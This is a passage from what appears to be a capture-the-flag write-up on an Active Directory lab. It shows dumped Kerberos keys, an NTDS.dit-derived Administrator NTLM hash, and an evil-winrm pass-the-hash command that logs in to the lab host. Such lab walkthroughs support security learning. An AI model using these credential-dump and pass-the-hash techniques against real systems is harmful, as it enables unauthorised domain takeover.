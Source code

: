 ```
ATTACKTIVEDIREC$:aes128-cts-hmac-sha1-96:6828a73c84cd97967aa1a94d91e2247f
ATTACKTIVEDIREC$:des-cbc-md5:01c2070468329eda
```
- Dumps ==NTDS.dit==
	- Every user secret that is stored

`Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::`
**Administrator NTLM Hash:** `0e0363213e37b94221497260b0bcb4fc`

We can perform a ==pass the hash== attack using the administrator hash. I will be using ==Evil-WinRM==

`evil-winrm -i 10.10.171.16 -u administrator -H 0e0363213e37b94221497260b0bcb4fc `
![[Pasted image 20250521055928.png]]
Easy flag!
